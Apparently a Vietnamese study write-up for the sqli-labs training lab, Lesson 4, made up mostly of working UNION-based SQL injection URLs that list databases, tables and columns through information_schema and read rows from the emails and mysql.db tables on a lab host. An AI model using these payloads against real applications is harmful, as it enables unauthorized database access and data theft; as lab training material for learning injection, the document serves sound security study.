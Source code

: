 # Một số việc làm với được lesson-4.md

![](../images/lesson1/screenshot.png)

Ta sẽ xem là server sử dụng hệ quản trị cơ sở dữ liệu nào ta nhìn vào port và thấy sử dụng MYSQL 

1. Đăng nhập với giá trị id 
```
http://192.168.80.225/sqli-labs/Less-3/?id=1
```

![](../images/lesson4/screen_12.png)

2. Show tấ cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson4/screen.png)

Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson4/screen_1.png)

- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-4/?id=1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson4/screen_2.png)

- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson4/screen_3.png)

Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```

![](../images/lesson4/screen_4.png)

- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```

![](../images/lesson4/screen_5.png)

-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```

![](../images/lesson4/screen_6.png)

- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```

![](../images/lesson4/screen_7.png)

- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```

![](../images/lesson4/screen_8.png)

Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1") union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```

![](../images/lesson4/screen_9.png)


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-4/?id=1")  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```

![](../images/lesson4/screen_10.png)

Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn. 
